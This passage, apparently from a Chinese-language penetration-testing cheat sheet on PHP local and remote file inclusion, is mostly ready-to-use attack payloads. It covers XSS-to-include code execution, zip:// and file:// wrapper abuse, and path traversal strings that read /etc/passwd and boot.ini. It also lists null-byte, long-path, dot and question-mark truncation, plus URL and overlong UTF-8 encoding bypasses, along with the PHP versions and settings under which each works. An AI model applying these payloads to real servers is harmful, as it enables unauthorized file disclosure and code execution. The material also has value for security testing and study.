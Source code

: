 		7.XSS执行任意代码
		{
			?file=http://127.0.0.1/path/xss.php?xss=phpcode
			(需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)
		}
		8.zip协议
		{
			zip://C:/1.zip#1.txt  就相当于取  C:\1.zip中的1.txt
			于是使用zip://协议来构造一个../old_head.php的文件（010editor修改zip内文件名）
			depth = zip://C:/Program Files (x86)/EasyPHP-Webserver-14.1b2/www/web2/..%23
			http://10.0.0.28:888/web2/admin/admin//getpassword.php?depth=zip://C:/Program%20Files%20(x86)/EasyPHP-Webserver-14.1b2/www/web2/upload/head/2.png%23
			
		}
		9.文件系统协议file:///
		{
			文件路径必须是绝对路径
		}
	}
		
		
		
	
	
	截断与绕过
	{
		1.长文件名截断:5.2可用，5.3修复，
		.与/的组合
				././././././././././././././././passwd
				////////////////////////passwd
				../1/abc/../1/abc/../1/abc..
		目录字符串在Windows下256字节、Linux下4096字节时达到最大值，最大值长度之后的字符将被丢弃。
		2.问号'?'截断:只有在远程包含才能使用，注意本地包含无法使用，不受版本限制
		3.常规%00，%23，%2500
			%00截断：
				?file=../../../../../../../../../etc/passwd%00
				(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
				%00截断在5.2版本可以使用，5.3及以后版本被修复，如果开启了GPC或者addslashes了，同样无法截断
			%00截断目录遍历：
				?file=../../../../../../../../../var/www/%00
				(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
		4.路径长度截断：
			?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
			(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
		5.点号截断：
			?file=../../../../../../../../../boot.ini/………[…]…………
			(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
		6.编码绕过
			url编码、双层（多层）url编码
				%2e%2e%2f   解码：../
				%2e%2e%5c  解码：..\
				%25%2e%25%2e%255c 解码：..\（可使用burp多层编码和解码）
			uniclode/UTF-8编码
				..%c0%af  解码：../
				%c1%9c  解码：..\	
		适用于所有文件操作函数
		{
			fopen,copy,readfile,parse_ini_file,file_get_contents,file_put_contents,mkdir,tempnam,touch,move_uploaded_file,renam,unlink,rmdir,ZipArchive::open()
		}
	}
	